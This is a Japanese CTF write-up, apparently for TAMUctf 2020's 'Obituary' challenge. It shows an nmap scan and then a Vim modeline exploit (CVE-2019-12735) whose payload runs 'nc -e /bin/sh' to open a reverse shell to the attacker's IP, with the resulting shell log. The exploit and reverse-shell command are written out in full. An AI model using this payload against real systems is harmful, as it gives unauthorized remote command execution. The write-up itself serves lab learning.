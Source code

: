 Attachment:

- obituary.ovpn


<br />
### Solution
まず、nmapします。

<pre>
captureamerica@kali:~/Downloads$ sudo nmap -sV -sC -oA nmap 172.30.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 11:20 +08
Nmap scan report for 172.30.0.2
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
4321/tcp open  rwhois?
MAC Address: 02:42:EE:81:CE:1E (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.42 seconds
</pre>

<br>
変なポート (4321) が一個開いているだけでした。

<br>
Vimがなんじゃらって言っているので、Vimに関する脆弱性を探して、以下が見つかりました。

https://medium.com/@magrabursofily/exploit-poc-linux-command-execution-on-vim-neovim-vulnerability-cve-2019-12735-4c770d5573cf






<br>
正直、意味がわからないですが、コピペ＆編集して以下のようなテキストファイルを作ります。ファイル名は、vim_cmd.txtにしました。(172.30.0.14は自分のIPです。)

<pre>
:!nc -nv 172.30.0.14 4444 -e /bin/sh ||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
</pre>

<br>
チャレンジ文より、"shoot me over your latest version of the code" とのことなので、こいつを投げてみます。

別ターミナルで `nc -l -p 4444` で待受けをしておいて、以下のコマンドで投げます。

<pre>
nc 172.30.0.2 4321 < vim_cmd.txt
</pre>

<br>
繋がりました。

<pre>
captureamerica@kali:~/CTF/TAMUctf_2020/Obituary$ nc -l -p 4444
id
uid=1000(mwazowski) gid=1000(mwazowski) groups=1000(mwazowski)
</pre>
